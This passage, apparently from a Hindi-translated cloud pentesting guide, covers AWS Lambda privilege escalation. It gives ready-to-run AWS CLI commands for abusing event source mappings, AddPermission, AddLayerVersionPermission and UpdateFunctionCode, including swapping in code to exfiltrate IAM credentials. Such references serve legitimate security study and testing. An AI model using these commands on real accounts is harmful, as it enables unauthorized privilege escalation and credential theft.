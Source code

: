 ```bash
--key-schema AttributeName=Test,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```
अब यह संभव है **Lambda फ़ंक्शन को DynamoDB तालिका से कनेक्ट करना** **एक इवेंट स्रोत मैपिंग बनाकर**:
```bash
aws lambda create-event-source-mapping --function-name my_function \
--event-source-arn <arn_of_dynamodb_table_stream> \
--enabled --starting-position LATEST
```
Lambda फ़ंक्शन को DynamoDB स्ट्रीम से लिंक करके, हमलावर **DynamoDB स्ट्रीम को सक्रिय करके Lambda को अप्रत्यक्ष रूप से ट्रिगर कर सकता है**। यह **DynamoDB तालिका में एक आइटम डालकर** किया जा सकता है:
```bash
aws dynamodb put-item --table-name my_table \
--item Test={S="Random string"}
```
**संभावित प्रभाव:** निर्दिष्ट लैम्ब्डा सेवा भूमिका के लिए सीधे प्रिवेस्क।

### `lambda:AddPermission`

इस अनुमति के साथ एक हमलावर **अपने लिए (या दूसरों के लिए) कोई भी अनुमति प्रदान कर सकता है** (यह संसाधन आधारित नीतियों को उत्पन्न करता है ताकि संसाधन तक पहुंच प्रदान की जा सके):
```bash
# Give yourself all permissions (you could specify granular such as lambda:InvokeFunction or lambda:UpdateFunctionCode)
aws lambda add-permission --function-name <func_name> --statement-id asdasd --action '*' --principal arn:<your user arn>

# Invoke the function
aws lambda invoke --function-name <func_name> /tmp/outout
```
**संभावित प्रभाव:** कोड को संशोधित करने और उसे चलाने की अनुमति देकर लैम्ब्डा सेवा भूमिका के लिए सीधे प्रिवेस्क।

### `lambda:AddLayerVersionPermission`

इस अनुमति के साथ एक हमलावर **अपने लिए (या दूसरों के लिए) अनुमति `lambda:GetLayerVersion` प्रदान कर सकता है**। वह लेयर तक पहुँच सकता है और कमजोरियों या संवेदनशील जानकारी की खोज कर सकता है।
```bash
# Give everyone the permission lambda:GetLayerVersion
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion
```
**संभावित प्रभाव:** संवेदनशील जानकारी तक संभावित पहुंच।

### `lambda:UpdateFunctionCode`

**`lambda:UpdateFunctionCode`** अनुमति रखने वाले उपयोगकर्ताओं के पास **IAM भूमिका से जुड़े एक मौजूदा Lambda फ़ंक्शन के कोड को संशोधित करने की क्षमता है।**\
हमलावर **IAM क्रेडेंशियल्स को एक्सफिल्ट्रेट करने के लिए लैम्ब्डा का कोड संशोधित कर सकता है।**

हालांकि हमलावर के पास फ़ंक्शन को सीधे सक्रिय करने की क्षमता नहीं हो सकती है, यदि Lambda फ़ंक्शन पूर्व-निर्मित और कार्यात्मक है, तो यह संभावना है कि इसे मौजूदा वर्कफ़्लो या घटनाओं के माध्यम से सक्रिय किया जाएगा, इस प्रकार संशोधित कोड के निष्पादन को अप्रत्यक्ष रूप से सुविधाजनक बनाता है।
```bash
# The zip should contain the lambda code (trick: Download the current one and add your code there)
aws lambda update-function-code --function-name target_function \
--zip-file fileb:///my/lambda/code/zipped.zip

# If you have invoke permissions:
aws lambda invoke --function-name my_function output.txt

# If not check if it's exposed in any URL or via an API gateway you could access
```
**संभावित प्रभाव:** उपयोग की जाने वाली लैम्ब्डा सेवा भूमिका के लिए सीधे प्रिवेस्क।
